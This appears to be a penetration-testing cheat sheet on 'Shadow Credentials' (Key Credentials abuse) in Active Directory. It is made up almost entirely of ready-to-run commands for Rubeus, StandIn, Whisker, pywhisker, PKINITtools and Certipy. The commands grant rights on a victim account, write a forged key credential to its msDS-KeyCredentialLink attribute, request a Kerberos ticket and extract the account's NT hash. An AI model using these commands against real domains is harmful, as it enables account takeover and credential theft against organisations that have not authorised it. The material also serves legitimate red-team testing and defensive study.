# Key Credentials Abuse

> "...if you can write to the `msDS-KeyCredentialLink` property of a user, you can retrieve the NT hash of that user." (Elad Shamir, [ref](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab))

That makes `GenericWrite` on a user effectively equal to DCSync right on that user.

{% hint style="info" %}
Remember that `WriteDacl` != `GenericWrite`, so in order to modify `msDS-KeyCredentialLink`, obtain necessary privileges first. For example, using [StandIn](https://github.com/FuzzySecurity/StandIn):

```
Cmd > Rubeus.exe createnetonly /program:cmd.exe /show /ticket:tgt.kirbi
Cmd > StandIn.exe --domain megacorp.local --object "samaccountname=snovvcrash" --grant "MEGACORP\jdoe" --type GenericAll
```
{% endhint %}

Check for existence of the `msDS-KeyCredentialLink` property in LDAP scheme with [powerview.py](https://github.com/aniqfakhrul/powerview.py):

```
PS > Get-DomainObject -SearchBase CN=Schema,CN=Configuration,DC=megacorp,DC=local -Properties lDAPDisplayName -Where "lDAPDisplayName contains msDS-KeyCredentialLink"
```




## Whisker

* [https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
* [https://github.com/eladshamir/Whisker](https://github.com/eladshamir/Whisker)

List all the values of the the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe list /target:WS01$ /domain:megacorp.local /dc:DC1.megacorp.local
```

Add a new value to the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe add /target:WS01$ /domain:megacorp.local /dc:DC1.megacorp.local /path:C:\Temp\cert.pfx /password:Passw0rd!
```

Remove a value from the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe remove /target:WS01$ /domain:megacorp.local /dc:DC1.megacorp.local /deviceid:00ff00ff-00ff-00ff-00ff-00ff00ff00ff
```

Clear all the values of the the `msDS-KeyCredentialLink` attribute of a target object:

```
Cmd > .\Whisker.exe clear /target:WS01$ /domain:megacorp.local /dc:DC1.megacorp.local 
```




## pywhisker

* [https://github.com/ShutdownRepo/pywhisker](https://github.com/ShutdownRepo/pywhisker)
* [https://podalirius.net/en/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/](https://podalirius.net/en/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/)

```
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action list
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action add -f sqltest_cert
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action list
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action clear
$ python3 gettgtpkinit.py megacorp.local/sqltest -cert-pfx sqltest_cert.pfx -pfx-pass <PFX_PASS> sqltest.ccache
$ KRB5CCNAME=sqltest.ccache python3 getnthash.py megacorp.local/sqltest -key <AES_KEY>
```




## Certipy

```
$ certipy shadow auto -u svc_mssql@megacorp.local -k -no-pass -account sqltest -target DC01.megacorp.local -dc-ip 192.168.1.11 [-ns 192.168.1.11] [-dns-tcp]
```




## Tools

- [https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADKeyCredential.md](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADKeyCredential.md)
- [https://github.com/RedTeamPentesting/keycred](https://github.com/RedTeamPentesting/keycred)
